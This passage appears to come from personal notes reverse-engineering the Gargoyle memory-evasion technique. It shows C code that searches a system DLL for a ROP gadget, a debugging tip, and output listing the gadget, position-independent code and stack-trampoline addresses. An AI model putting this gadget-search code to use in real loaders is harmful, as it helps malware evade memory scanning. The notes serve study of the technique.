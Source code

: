 ![](/assets/img/Pasted image 20250602064537.png)



- Moving onto the searching of gadget in the module:

```c
  __debugbreak();
  for (auto section_header : filtered_section_headers)
  {
    for (auto& rop_gadget : rop_gadget_candidates)
    {
      __debugbreak();
      auto section_base = dll_base + section_header->VirtualAddress;
      vector<uint8_t> section_content(section_base, section_base + section_header->Misc.VirtualSize);
      auto search_result = search(begin(section_content), end(section_content), begin(rop_gadget), end(rop_gadget));
      if (search_result == end(section_content))
          continue;

      auto rop_gadget_offset = section_base + (search_result - begin(section_content));
      printf("[+] Found ROP gadget in section \"%s\" at 0x%p.\n", section_header->Name, rop_gadget_offset);
      return rop_gadget_offset;
    }
  }

  printf("[-] Didn't find ROP gadget in \"%s\".\n", system_dll_filename.c_str());
  return 0;
}
```

	- Find the 'if()' statement inside the inner for() loop when reversing instead of going through each of the iteration.


<u>Continue here</u>:

![](/assets/img/Pasted image 20250602081227.png)


### Fast forward to full execution...


<u>Fully Functional Gargoyle</u>:

![](/assets/img/Pasted image 20250619073500.png)


```c
a) Gargoyle PIC @ -----> 0x01530000
b) ROP gadget @ -------> 0x600A6FA6
c) Configuration @ ----> 0x03600000
d) Top of stack @ -----> 0x03600038
e) Bottom of stack @ --> 0x03610037
f) Stack trampoline @ -> 0x03610038
```
